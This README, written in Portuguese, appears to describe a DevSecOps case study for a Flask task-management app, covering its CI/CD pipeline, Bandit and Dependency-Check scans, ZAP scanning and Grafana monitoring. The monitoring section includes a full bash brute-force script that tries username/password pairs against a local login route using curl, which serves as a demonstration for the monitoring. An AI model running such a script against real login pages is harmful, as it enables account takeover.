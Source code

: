 ## INTRODUÇÃO

Este estudo de caso se refere a implementação e segurança de um sistema de gerenciamento de tarefas pessoais, integrando processos de SDLC, DevOps e DevSecOps para garantir eficiência e segurança.
<hr>


### ETAPA 1: PLANEJAMENTO E DEFINIÇÃO DE REQUISITOS

1. Clonar o projeto e instalar das dependências a partir do requiriments.txt:

```
Flask==2.3.2
Flask-Bcrypt==1.0.1
Flask-Login==0.6.3
Flask-SQLAlchemy==3.0.5
Flask-WTF==1.1.1
WTForms==3.1.1
Jinja2==3.1.2
werkzeug==2.3.3
coverage
python-dotenv
prometheus-flask-exporter
```
<br />

2. Construir o diagrama para entender o domínio do problema:

![DFD](https://github.com/gustavogss/task-manager/blob/main/images/dfd.png)
<hr>

### ETAPA 2: DESENVOLVIMENTO DO SISTEMA

**Branches:**
- `master`: produção  
- `development`: desenvolvimento  
- `staging`: homologação

**Ferramentas Utilizadas:**
- Visual Studio Code
- GitLab
- Docker
- Python
- Pytest
- Unittest
- Zed Attack Proxy
- Bandit
- OWASP Dependency-Check
- OWASP ZAP
- Hydra
- Prometheus
- Grafana

1. Implementação do Dockerfile:

![dockerfile](https://github.com/gustavogss/task-manager/blob/main/images/dockerfile.png)

2. Aplicação executada na porta 5000:

![app](https://github.com/gustavogss/task-manager/blob/main/images/app.png)
<hr>

### ETAPA 3: IMPLEMENTAÇÃO DE UM PIPELINE CI/CD

1. Implementação do build e deploy na pipeline:

![gitlab](https://github.com/gustavogss/task-manager/blob/main/images/gitlabci.png)

2. Pipeline em execução no GitLab:

![pipeline-initial](https://github.com/gustavogss/task-manager/blob/main/images/pipeline-initial.png)
<hr>

### ETAPA 4: ANÁLISE ESTÁTICA DE CÓDIGO (SAST)

1. Implementação do Bandit na pipeline:

![bandit](https://github.com/gustavogss/task-manager/blob/main/images/bandit.png)

2. Artefato gerado mostrando dados sensíveis expostos na aplicação:

![artefact_bandit](https://github.com/gustavogss/task-manager/blob/main/images/artefact-zap-attack-tools.png)

3. Correção no código da falha capturada pelo Bandit:

![fix_bandit](https://github.com/gustavogss/task-manager/blob/main/images/fixenv.png)

4. Implementação do OWASP Dependency Check na pipeline:

![owasp_dependency_check](https://github.com/gustavogss/task-manager/blob/main/images/owasp-dependecy-check.png)

5. Artefato gerado com vulnerabilidades no código JavaScript:

![artefact_dependency](https://github.com/gustavogss/task-manager/blob/main/images/artifect-dependency-check.png)
<hr>

### ETAPA 5: ANÁLISE DINÂMICA DE SEGURANÇA (DAST)

1. Foi utilizada a aplicação Zed Attack Proxy (ZAP) para fazer uma varredura rápida na aplicação:

![zed](https://github.com/gustavogss/task-manager/blob/main/images/zap-attack-tools.png)

2. Artefato gerado mostrando as vulnerabilidades e níveis de risco:

![artefact_zed](https://github.com/gustavogss/task-manager/blob/main/images/artefact-zap-attack-tools.png)
<hr>

### ETAPA 6: ENTREGA CONTÍNUA (CD)

1. Implementação da etapa de revisão de código na pipeline:

![review](https://github.com/gustavogss/task-manager/blob/main/images/review-pipeline.png)

2. Implementação do OWASP ZAP para executar em toda a pipeline na homologação:

![owasp_zap](https://github.com/gustavogss/task-manager/blob/main/images/dast.png)
<hr>

### ETAPA 7: MONITORAMENTO

1. Implementação do Prometheus e Grafana na produção:

![prometheus_grafana](https://github.com/gustavogss/task-manager/blob/main/images/grafana-prometheus.png)

2. Implementação do ataque de força bruta em bash:

```
#!/bin/bash

URL="http://localhost:5000/login"   
USERNAMES="usernames.txt"        
PASSWORDS="passwords.txt"       

if [[ ! -f "$USERNAMES" || ! -f "$PASSWORDS" ]]; then
  echo "Os arquivos usernames.txt ou passwords.txt não foram encontrados."
  exit 1
fi

while IFS= read -r username; do
  while IFS= read -r password; do
    echo "Tentando login com Username: $username e Password: $password"    
 
    response=$(curl -s -X POST -d "username=$username&password=$password" "$URL")    
   
    if [[ $response == *"Login successful"* ]]; then
      echo "SUCESSO! Username: $username | Password: $password"
      exit 0
    fi
  done < "$PASSWORDS"
done < "$USERNAMES"
```
<br />
   
3. Acompanhamento pelo Grafana com o ataque de bruta force em execução na rota de login:

![monitory](https://github.com/gustavogss/task-manager/blob/main/images/monitory.png)
<hr>

### ETAPA 8: FEEDBACKS

1. A aplicação é antiga e precisou que algumas bibliotecas fossem atualizadas;
   
2. Foi corrigida uma das vulnerabilidades críticas capturada pelo bandit;
   
3. Testes funcionais e de integração foram implementados na etapa de homologação 
   
4. A pipeline foi testada de ponta a ponta, do desenvolvimento a homologação e produção:

![pipeline_full](https://github.com/gustavogss/task-manager/blob/main/images/pipeline-finished.png)

<br />
